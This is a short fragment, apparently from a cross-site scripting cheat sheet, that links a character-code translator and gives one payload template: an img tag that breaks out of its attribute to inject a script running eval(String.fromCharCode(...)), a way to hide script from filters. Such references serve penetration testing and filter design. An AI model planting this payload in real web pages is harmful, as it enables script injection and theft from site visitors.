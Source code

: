 ## Tools
- CharCode Translator: http://jdstiles.com/java/cct.html
```
<img src="x/><script>eval(String.fromCharCode(CHARCODE_HERE));</script>">
```
